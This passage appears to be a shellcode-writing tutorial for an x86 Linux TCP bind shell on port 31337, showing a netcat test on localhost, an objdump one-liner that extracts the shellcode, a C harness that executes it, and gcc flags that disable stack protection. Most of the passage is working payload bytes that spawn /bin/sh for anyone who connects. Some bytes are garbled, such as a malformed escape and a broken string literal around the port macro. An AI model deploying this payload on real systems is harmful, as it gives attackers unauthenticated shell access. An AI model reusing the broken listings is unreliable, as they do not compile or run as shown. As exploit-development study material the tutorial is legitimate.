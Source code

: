 Test above executable on localhost using netcat under X:
Open a terminal under working directory,
```
$ ./tcpbindshell
```
Open another terminal,
```
$ nc localhost 31337
```
commands can now be executed in this terminal e.g. try typing ls to see contents of tcpbindshell directory.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so
```bash
$ objdump -d ./tcpbindshell | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-6 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x6a\x06\x6\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80”
```
The shellcode can be copied and pasted into a test program, similar to the one below. The #define PORTHL is to allow for an easily configurable port.
```c	
#include <stdio.h>
 
/*
 Port High/Low bytes
 Current port 31337 (7a69)
*/
#define PORTHL "\x7a\x69"
 
unsigned char code[] =
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66"
"\xb3\x01\x51\x6a\x06\x6a\x01\x6a\x02\x89"
"\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52"
"\x66\x68 
"PORTHL"
\x66\x53\x89\xe1\x6a\x10"
"\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04"
"\x6a\x01\x56\x89\xe1\xcd\x80\xb0\x66\xb3"
"\x05\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3"
"\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f\xcd\x80"
"\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68"
"\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89"
"\xe1\x52\x89\xe2\xb0\x0b\xcd\x80";
 
main()
{
    printf("Shellcode Length: %dn", sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
}
```
Build the code:
```
$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.
